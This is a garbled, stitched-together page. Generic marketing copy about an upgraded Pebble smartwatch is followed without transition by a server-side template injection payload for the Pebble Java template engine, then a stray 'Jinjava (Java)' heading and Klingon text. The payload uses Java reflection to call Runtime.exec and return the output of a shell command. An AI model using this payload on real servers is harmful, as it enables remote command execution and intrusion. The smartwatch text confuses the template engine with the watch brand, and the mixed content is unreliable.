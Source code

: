 1. **Enhanced Performance**: We've optimized the Pebble's performance to ensure a smoother and faster user experience. You'll notice improved responsiveness and reduced lag, making your interactions with the device more seamless than ever.

2. **Extended Battery Life**: We understand the importance of battery life, and we've made significant enhancements to extend the Pebble's battery performance. Now you can enjoy your Pebble for even longer without worrying about running out of power.

3. **New Watch Faces**: We've added a collection of stunning new watch faces to give your Pebble a fresh and personalized look. Choose from a variety of styles and designs to match your mood and style.

4. **Improved Health Tracking**: Keeping track of your health and fitness goals is easier than ever with the new and improved health tracking features. Monitor your steps, heart rate, sleep patterns, and more, all from your wrist.

5. **Enhanced Notifications**: Stay connected and never miss an important update with our enhanced notification system. Receive alerts for calls, messages, emails, and other notifications directly on your Pebble, so you're always in the loop.

6. **Expanded App Ecosystem**: Discover new and exciting apps in the Pebble app store. We've expanded our app ecosystem to offer a wider range of applications, allowing you to customize your Pebble experience even further.

7. **Improved Water Resistance**: The new Pebble is now even more water-resistant, making it perfect for all your outdoor adventures. Whether you're swimming, surfing, or simply caught in the rain, your Pebble will keep up with you.

Upgrade to the latest version of Pebble today and unlock a world of possibilities. Experience the future of smartwatches with Pebble's cutting-edge technology and innovative features.
```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}


{% set bytes = (1).TYPE
.forName('java.lang.Runtime')
.methods[6]
.invoke(null,null)
.exec(cmd)
.inputStream
.readAllBytes() %}
{{ (1).TYPE
.forName('java.lang.String')
.constructors[0]
.newInstance(([bytes]).toArray()) }}
```
### Jinjava (Java)

#### tlhIngan Hol

Jinjava (Java) vItlhutlh

#### English
